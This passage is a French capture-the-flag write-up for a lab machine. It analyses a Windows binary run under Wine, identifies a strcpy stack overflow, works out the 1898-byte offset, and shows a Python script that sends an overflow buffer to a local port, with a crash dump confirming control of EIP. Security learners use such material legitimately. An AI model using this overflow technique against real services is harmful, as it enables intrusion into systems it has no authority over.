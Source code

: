 Le fichier est accompagné d'une DLL :

```bash
www-data@school:/$ ls -l /opt/access/
total 80
-rw-r--r-- 1 root root 51019 Nov  7  2020 access.exe
-rw-r--r-- 1 root root 28613 Nov  7  2020 funcs_access.dll
```

## Copier Coller

Je n'entrerais pas dans les détails du reverse-engineering sur ce CTF car le binaire est quasiment le même que sur Netstart. La vérification des mauvais caractères différe :

```
0x4d 0x4f 0x5f 0x79 0x7e 0x7f
```

La fonction vulnérable (qui a le même nom) a une stack plus grande :

```nasm
_f3 (char *arg_8h);
; var char *dest @ ebp-0x76a
; arg char *arg_8h @ ebp+0x8
; var const char *src @ esp+0x4
0x004018ce      push ebp
0x004018cf      mov ebp, esp
0x004018d1      sub esp, 0x788
0x004018d7      mov eax, dword [arg_8h]
0x004018da      mov dword [src], eax ; const char *src
0x004018de      lea eax, [dest]
0x004018e4      mov dword [esp], eax ; char *dest
0x004018e7      call _strcpy       ; sym._strcpy ; char *strcpy(char *dest, const char *src)
0x004018ec      nop
0x004018ed      leave
0x004018ee      ret
```

Ici 1898 (0x76a) octets sont réservés pour le buffer suvi par les sauvegardes de EBP et EIP.

Pour le vérifier on peut envoyer des données qui devraient se caler parfaitement sur les registres :

```python
import socket

sock = socket.socket()
sock.connect(('127.0.0.1', 2323))
buff = b"A" * 1898 + b"BBBBCCCC" + b"D" * 1024
sock.send(buff)
sock.close()
```

Et ça marche, comme l'indique l'outil de gestion de crash de Wine :

```
Unhandled exception: page fault on read access to 0x43434343 in 32-bit code (0x43434343).
Register dump:
 CS:0023 SS:002b DS:002b ES:002b FS:0063 GS:006b
 EIP:43434343 ESP:0135fb08 EBP:42424242 EFLAGS:00010246(  R- --  I  Z- -P- )
 EAX:0135f396 EBX:00000040 ECX:0135f396 EDX:00000000
 ESI:00000000 EDI:00000000
Stack dump:
0x0135fb08:  44444444 44444444 44444444 44444444
0x0135fb18:  44444444 44444444 44444444 44444444
0x0135fb28:  44444444 44444444 44444444 44444444
0x0135fb38:  44444444 44444444 44444444 44444444
0x0135fb48:  44444444 44444444 44444444 44444444
0x0135fb58:  44444444 44444444 44444444 44444444
```
